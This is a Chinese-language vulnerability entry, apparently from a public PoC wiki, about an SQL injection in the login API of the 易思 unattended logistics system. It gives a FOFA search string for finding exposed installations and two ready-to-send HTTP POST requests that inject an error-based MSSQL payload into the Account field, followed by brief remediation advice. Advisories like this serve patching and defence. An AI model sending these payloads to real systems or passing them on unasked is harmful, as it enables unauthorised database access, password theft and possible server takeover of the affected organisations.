

# 易思智能物流无人值守系统 login SQL注入漏洞

# 漏洞描述

易思智能物流无人值守系统 login SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

易思智能物流无人值守系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/api/SingleLogin"

POC/EXP：poc1

POST /api/PhoneLogin/login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

Account=1'%20and%20sys.fn_sqlvarbasetostr(HashBytes('MD5','123'))=1--&Espassword=g5edid4OCFI32C5NPEZeXg%3D%3D

POC/EXP：poc2

POST /api/PhoneLogin/login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

LoginUserType=0&DeviceType=2&Account=1'%20and%20sys.fn_sqlvarbasetostr(HashBytes('MD5','123'))=1--&BrowserType=Firefox&Verifycode=&IMEI=&isverify=false&SetOfBooks=Default&Espassword=1wD%2Bj6eIbahZGOatg1Spiw%3D%3D

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
